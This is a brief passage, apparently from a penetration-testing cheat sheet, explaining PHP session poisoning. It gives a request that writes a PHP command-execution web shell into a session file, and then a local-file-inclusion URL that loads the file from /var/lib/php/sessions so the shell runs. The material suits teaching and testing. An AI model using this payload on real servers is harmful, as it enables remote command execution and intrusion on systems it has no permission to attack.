 PHP session poisoning denotes a security vulnerability where attackers manipulate or exploit PHP application session management systems, enabling unauthorized access or malicious activities.

Sometimes we could exploit session files with a payload like this:

```URL
sessions.php?page=<?php system($_GET['cmd']);?>
```

Then we access the URL with the following path:

```URL
sessions.php?page=/var/lib/php/sessions/sess_[sessionID]
```

Where `[sessionID]` is value from your PHPSESSID cookie. (Could be found in Application tap in inspect elements)